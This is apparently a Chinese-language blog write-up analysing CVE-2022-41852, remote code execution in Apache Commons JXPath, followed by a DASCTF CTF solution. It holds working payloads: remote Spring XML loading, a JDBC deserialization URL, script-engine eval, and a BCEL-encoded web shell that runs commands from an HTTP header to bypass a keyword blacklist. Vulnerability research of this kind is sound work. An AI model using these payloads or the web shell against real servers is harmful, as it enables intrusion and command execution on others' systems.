









# Apache Commons Jxpath RCE

* CVE-2022-41852
* 影响版本：commons-jxpath <= 1.3（最新版本为1.3，官方已停止更新）
* [Apache Commons JXPath – JXPath User's Guide](https://commons.apache.org/proper/commons-jxpath/users-guide.html)

Xpath是一门在XML文档中查找信息的语言，JXpath是Xpath的Java实现

由官方文档可知JXpath不仅提供了XPath解析XML文档，还实现了JavaBean、Collections、Map转XML。还有一点类似EL表达式的功能。



JXpath除了XPath函数，还支持联通Java的扩展函数

* 构造器调用
* 静态方法调用
* 普通方法调用

```xml
<dependency>
    <groupId>commons-jxpath</groupId>
    <artifactId>commons-jxpath</artifactId>
    <version>1.3</version>
</dependency>
<dependency>
    <groupId>commons-beanutils</groupId>
    <artifactId>commons-beanutils</artifactId>
    <version>1.9.3</version>
</dependency>
```

```java
package com.example.first;

import java.io.IOException;

public class dog {
    public String name;
    private Integer age;

    public dog(String name, Integer age) {
        System.out.println("Constructor Called");
        this.name = name;
        this.age = age;
    }
    
    public static void evil(){
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }

    @Override
    public String toString() {
        return "dog{" +
                "name='" + name + '\'' +
                ", age=" + age +
                '}';
    }
}
package com.example.first;

import java.io.IOException;

public class dog {
    public String name;
    private Integer age;

    public dog(String name, Integer age) {
        System.out.println("Constructor Called");
        this.name = name;
        this.age = age;
    }

    public static void evil(String cmd){
        try {
            Runtime.getRuntime().exec(cmd);
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }

    @Override
    public String toString() {
        return "dog{" +
                "name='" + name + '\'' +
                ", age=" + age +
                '}';
    }
}


public static void main(String[] args) {
    JXPathContext context = JXPathContext.newContext(null);
    String new_code = "com.example.first.dog.new(\"taco\", 18)";
    String static_code = "com.example.first.dog.evil(\"calc\")";
    Object o = context.getValue(new_code);
    System.out.println(o);
    context.getValue(static_code);
}

// Constructor Called
// dog{name='taco', age=18}
// calc pop!
```

下面看一下JXPath是怎么解析并调用函数的

`org.apache.commons.jxpath.ri.compiler.ExtensionFunction#computeValue`



`name`包括全类名和方法名，再加上参数类型，就能定位到类方法



根据方法名返回`ConstructorFunction`或`MethodFunction`



接着调用构造函数或静态函数 `function.invoke(context, parameters);`

## 构造器利用

Spring当中有两个类的构造函数远程加载配置，可以构成RCE

```xml
org.springframework.context.support.ClassPathXmlApplicationContext
org.springframework.context.support.FileSystemXmlApplicationContext
```

```xml
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xmlns:p="http://www.springframework.org/schema/p"
       xsi:schemaLocation="http://www.springframework.org/schema/beans
        http://www.springframework.org/schema/beans/spring-beans.xsd">
   <bean id="exec" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>calc</value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```

```java
JXPathContext context = JXPathContext.newContext(null);
String code = "org.springframework.context.support.ClassPathXmlApplicationContext.new(\"http://127.0.0.1:8888/evil.xml\")";
context.getValue(code);
```



## 静态方法利用

* `javax.naming.InitialContext#doLookup`

```java
public static <T> T doLookup(Name name)
    throws NamingException {
    return (T) (new InitialContext()).lookup(name);
}
```



* ` java.sql.DriverManager#getConnection`

```java
public static Connection getConnection(String url,
                                       String user, String password) throws SQLException {
    java.util.Properties info = new java.util.Properties();

    if (user != null) {
        info.put("user", user);
    }
    if (password != null) {
        info.put("password", password);
    }

    return (getConnection(url, info, Reflection.getCallerClass()));
}

JXPathContext context = JXPathContext.newContext(null);
String code = "java.sql.DriverManager.getConnection(\"jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_CommonsCollections7_calc\",\"yso_CommonsCollections7_calc\",\"root\")";
context.getValue(code);
```



* `com.alibaba.fastjson.JSON#parseObject`

注意这里外边传参要用单引号，json字符串和外边传参都用双引号会解析错误



## 普通方法利用

```java
exec(java.lang.Runtime.getRuntime(),'calc')
eval(getEngineByName(javax.script.ScriptEngineManager.new(),'js'),'java.lang.Runtime.getRuntime().exec(\"calc\")')
```

# DASCTF Apr.2023 X SU战队2023开局之战

ezjxpath

```java
@ResponseBody
@RequestMapping({"/hack"})
public String hack(@RequestParam(name = "query",required = true) String query) throws Exception {
    try {
        Waf waf = new Waf();
        if (!waf.check(query)) {
            return "try harder";
        } else {
            JXPathContext context = JXPathContext.newContext((Object)null);
            context.getValue(query);
            return "good job!";
        }
    } catch (Exception var4) {
        return "some thing wrong?";
    }
}

public class Waf {
    private List<String> blacklist = new ArrayList(Arrays.asList("java.lang", "Runtime", "org.springframework", "javax.naming", "Process", "ScriptEngineManager"));

    public boolean check(String s) throws UnsupportedEncodingException {
        if (s.isEmpty()) {
            return false;
        } else {
            String reals = URLDecoder.decode(s, "UTF-8").toUpperCase(Locale.ROOT);

            for(int i = 0; i < this.blacklist.size(); ++i) {
                if (reals.toUpperCase(Locale.ROOT).contains(((String)this.blacklist.get(i)).toUpperCase(Locale.ROOT))) {
                    return false;
                }
            }

            return true;
        }
    }
}
```

WAF禁用了一些危险类

* BCEL绕过

```java
import java.lang.reflect.Method;
import java.util.Scanner;

public class Evil {
    static {
        try {
            Class c = Thread.currentThread().getContextClassLoader().loadClass("org.springframework.web.context.request.RequestContextHolder");
            Method m = c.getMethod("getRequestAttributes");
            Object o = m.invoke(null);
            c = Thread.currentThread().getContextClassLoader().loadClass("org.springframework.web.context.request.ServletRequestAttributes");
            m = c.getMethod("getResponse");
            Method m1 = c.getMethod("getRequest");
            Object resp = m.invoke(o);
            Object req = m1.invoke(o); // HttpServletRequest
            Method getWriter = Thread.currentThread().getContextClassLoader().loadClass("javax.servlet.ServletResponse").getDeclaredMethod("getWriter");
            Method getHeader = Thread.currentThread().getContextClassLoader().loadClass("javax.servlet.http.HttpServletRequest").getDeclaredMethod("getHeader",String.class);
            getHeader.setAccessible(true);
            getWriter.setAccessible(true);
            Object writer = getWriter.invoke(resp);
            String cmd = (String)getHeader.invoke(req, "cmd");
            String[] commands = new String[3];
            if (System.getProperty("os.name").toUpperCase().contains("WIN")) {
                commands[0] = "cmd";
                commands[1] = "/c";
            } else {
                commands[0] = "/bin/sh";
                commands[1] = "-c";
            }
            commands[2] = cmd;
            writer.getClass().getDeclaredMethod("println", String.class).invoke(writer, new Scanner(Runtime.getRuntime().exec(commands).getInputStream()).useDelimiter("\\A").next());
            writer.getClass().getDeclaredMethod("flush").invoke(writer);
            writer.getClass().getDeclaredMethod("close").invoke(writer);
        } catch (Exception e) {

        }

    }
}
```

```java
public static void main(String[] args) throws Exception {
    JavaClass javaClass = Repository.lookupClass(Evil.class);
    String encode = Utility.encode(javaClass.getBytes(), true);
    System.out.println("$$BCEL$$" + encode);
}
```

```java
newInstance(loadClass(com.sun.org.apache.bcel.internal.util.ClassLoader.new(),BCEL_Code))
```

官方wp：

```java
runMain(com.sun.org.apache.bcel.internal.util.JavaWrapper.new(),BCEL_Code,'')
```


其他一些想法：

```java
eval(getEngineByName(javax.script.ScriptEngineManager.new(),'js'), java.lang.String.new(decode(java.util.Base64.getDecoder(), "amF2YS5sYW5nLlJ1bnRpbWUuZ2V0UnVudGltZSgpLmV4ZWMoImNhbGMiKQ==")))
```

## Reference

* [浅析Apache Commons Jxpath命令执行分析(CVE-2022-41852) | Y4tacker's Blog](https://y4tacker.github.io/2022/10/13/year/2022/10/浅析Apache-Commons-Jxpath命令执行分析-CVE-2022-41852/)
* [CVE-2022-41852 Apache Commons Jxpath 命令执行漏洞分析 (seebug.org)](https://paper.seebug.org/1992/)
